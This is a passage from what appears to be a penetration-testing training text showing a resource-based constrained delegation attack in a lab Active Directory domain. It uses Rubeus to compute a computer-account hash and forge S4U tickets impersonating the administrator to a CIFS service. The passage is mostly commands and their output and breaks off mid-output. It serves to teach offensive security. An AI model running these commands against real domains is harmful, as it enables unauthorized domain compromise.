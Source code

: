 ```
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None

PS C:\tools> ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
PROD\myComputer$
```

> Listing 40 - Verifying the SID in the SecurityDescriptor

The _SecurityDescriptor_ was indeed set correctly in the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property for appsrv01.

Now we can begin our attack in an attempt to compromise appsrv01. We'll start by obtaining the hash of the computer account password with Rubeus.

```
PS C:\tools> .\Rubeus.exe hash /password:h4x
...

[*] Action: Calculate Password Hash(es)

[*] Input password             : h4x
[*]       rc4_hmac             : AA6EAFB522589934A6E5CE92C6438221

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

> Listing 41 - Calculate NTLM hash with Rubeus

In the previous section, we used the Rubeus asktgt command to request a TGT before invoking the s4u command. We can also directly submit the username and password hash to the s4u command, which will implicitly call asktgt and inject the resultant TGT, after which the S4U extensions will be invoked.

```
PS C:\tools> .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
...

[*] Action: S4U

[*] Using rc4_hmac hash: AA6EAFB522589934A6E5CE92C6438221
[*] Building AS-REQ (w/ preauth) for: 'prod.corp1.com\myComputer$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFFDCCBRCgAwIBBaEDAgEWooIEI...


[*] Action: S4U

[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2self request for: 'myComputer$@PROD.CORP1.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@PROD.CORP1.COM' to 'myComputer$@PROD.CORP1.COM'
[*] base64(ticket.kirbi):

      doIFhDCCBYCgAwIBBaEDAgEWooIEi...

[*] Impersonating user 'administrator' to target SPN 'CIFS/appsrv01.prod.corp1.com'
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2proxy request for service: 'CIFS/appsrv01.prod.corp1.com'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/appsrv01.prod.corp1.com':

```